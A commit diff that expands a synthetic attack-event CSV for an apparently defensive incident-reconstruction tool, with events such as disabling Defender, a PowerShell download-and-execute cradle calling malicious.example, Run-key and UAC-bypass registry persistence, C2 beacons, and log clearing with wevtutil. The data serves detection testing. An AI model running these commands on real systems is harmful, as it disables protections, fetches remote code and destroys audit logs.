

Before and after one commit to nandannikam/incident-recon, a CSV file: src/data/attack_sample.csv, drawn as a sheet.

Commit message:
chore(data)
Fixes Issues #11, #12, #13, #14 (18-row attack CSV, 10-row benign CSV with near-miss cases, data README, mordor dir)

```diff
--- a/src/data/attack_sample.csv
+++ b/src/data/attack_sample.csv
@@ -1,8 +1,19 @@
 timestamp,source,event_type,actor,target,metadata
-2024-01-01T10:00:00Z,HOST01,file_download,SYSTEM,C:\temp\invoice.zip,"{'url':'http://malicious.example/invoice.zip'}"
-2024-01-01T10:00:30Z,HOST01,file_creation,SYSTEM,C:\temp\invoice.exe,"{'parent':'zip_extract'}"
-2024-01-01T10:01:00Z,HOST01,process_execution,USER01,invoice.exe,"{'parentpid':1024,'pid':2048}"
-2024-01-01T10:01:30Z,HOST01,powershell_execution,USER01,powershell.exe,"{'scriptblock':'Set-MpPreference -DisableRealtimeMonitoring $true'}"
-2024-01-01T10:02:00Z,HOST01,registry_modification,USER01,HKLM:\Software\Microsoft\Windows\CurrentVersion\Run\Updater,"{'value':'C:\\temp\\invoice.exe'}"
-2024-01-01T10:02:30Z,HOST01,network_connection,invoice.exe,185.220.101.1,"{'port':443}"
-2024-01-01T10:03:00Z,HOST01,log_deletion,USER01,Security.evtx,"{'method':'wevtutil cl'}"
+2024-01-01T10:00:00Z,HOST01,file_download,SYSTEM,C:\temp\invoice.zip,"{""url"": ""http://malicious.example/invoice.zip""}"
+2024-01-01T10:00:15Z,HOST01,network_connection,SYSTEM,185.220.101.1,"{""port"": 443, ""direction"": ""outbound"", ""reason"": ""download""}"
+2024-01-01T10:00:30Z,HOST01,file_creation,SYSTEM,C:\temp\invoice.exe,"{""parent"": ""zip_extract""}"
+2024-01-01T10:00:45Z,HOST01,file_creation,SYSTEM,C:\temp\readme.txt,"{""parent"": ""zip_extract""}"
+2024-01-01T10:01:00Z,HOST01,process_execution,USER01,invoice.exe,"{""pid"": 2048, ""parentpid"": 1024}"
+2024-01-01T10:01:10Z,HOST01,process_execution,USER01,cmd.exe,"{""pid"": 2100, ""parentpid"": 2048}"
+2024-01-01T10:01:30Z,HOST01,powershell_execution,USER01,powershell.exe,"{""pid"": 2150, ""parentpid"": 2100, ""scriptblock"": ""Set-MpPreference -DisableRealtimeMonitoring $true""}"
+2024-01-01T10:01:40Z,HOST01,file_download,USER01,C:\temp\stage2.ps1,"{""url"": ""http://malicious.example/stage2.ps1""}"
+2024-01-01T10:01:55Z,HOST01,powershell_execution,USER01,powershell.exe,"{""pid"": 2200, ""parentpid"": 2150, ""scriptblock"": ""IEX (New-Object Net.WebClient).DownloadString('http://malicious.example/stage2.ps1')""}"
+2024-01-01T10:02:00Z,HOST01,registry_modification,USER01,HKLM:\Software\Microsoft\Windows\CurrentVersion\Run\Updater,"{""value"": ""C:\\temp\\invoice.exe""}"
+2024-01-01T10:02:10Z,HOST01,registry_modification,USER01,HKLM:\Software\Microsoft\Windows\CurrentVersion\Run\Helper,"{""value"": ""C:\\temp\\stage2.ps1""}"
+2024-01-01T10:02:20Z,HOST01,registry_modification,USER01,HKCU:\Software\Classes\ms-settings\shell\open\command,"{""value"": ""C:\\temp\\invoice.exe"", ""technique"": ""UAC bypass staging""}"
+2024-01-01T10:02:30Z,HOST01,network_connection,invoice.exe,185.220.101.1,"{""port"": 443, ""direction"": ""outbound"", ""reason"": ""c2 beacon""}"
+2024-01-01T10:02:45Z,HOST01,network_connection,invoice.exe,91.219.237.244,"{""port"": 8080, ""direction"": ""outbound"", ""reason"": ""c2 beacon secondary""}"
+2024-01-01T10:03:00Z,HOST01,log_deletion,USER01,Security.evtx,"{""method"": ""wevtutil cl""}"
+2024-01-01T10:03:10Z,HOST01,log_deletion,USER01,System.evtx,"{""method"": ""wevtutil cl""}"
+2024-01-01T10:03:20Z,HOST01,process_execution,USER01,wevtutil.exe,"{""pid"": 2300, ""parentpid"": 2100}"
+2024-01-01T10:03:30Z,HOST01,file_creation,USER01,C:\temp\cleanup_done.flag,"{""parent"": ""wevtutil.exe""}"
```
Also changed, not shown: src/data/benign_sample.csv, 2 other files.
